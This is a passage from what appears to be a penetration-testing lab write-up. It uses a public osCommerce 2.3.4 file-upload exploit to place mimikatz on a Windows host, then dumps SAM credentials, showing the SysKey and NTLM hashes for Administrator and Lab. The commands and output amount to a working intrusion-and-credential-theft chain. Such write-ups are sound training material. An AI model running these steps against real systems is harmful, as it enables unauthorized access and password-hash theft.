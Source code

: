 I upload an older 32 bit version of **mimikatz 2.1.1** to the system using the same exploit we've been using:

`python2 43191.py -u http://10.10.50.2:8080/oscommerce-2.3.4 --auth=jdotinfo:password -f mimikatz32.exe`

```
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 4
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file mimikatz64.exe uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.50.2:8080/oscommerce-2.3.4/catalog/admin/mimikatz64.exe
```

You can find the uploaded file in this directory:

```
 Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin

04/06/2022  07:57 PM         1,250,056 mimikatz32.exe
```

Running mimikatz and providing it the `lsadump::sam` command:

```
C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>mimikatz32.exe

  .#####.   mimikatz 2.1.1 (x86) #17763 Dec  9 2018 23:56:27
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::sam
PRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450
```
